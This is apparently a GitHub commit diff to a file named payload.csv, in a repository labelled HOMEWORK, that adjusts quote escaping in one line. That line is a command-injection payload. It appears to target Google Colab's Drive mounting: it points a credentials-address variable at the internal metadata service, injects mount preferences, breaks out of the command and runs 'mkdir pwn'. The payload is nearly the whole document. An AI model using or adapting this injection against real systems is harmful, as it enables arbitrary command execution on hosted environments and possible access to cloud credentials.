

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2,3
-TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E '\Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo '\drive EXITED\'; ) & mkdir pwn & #', 13
+TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #', 13
```
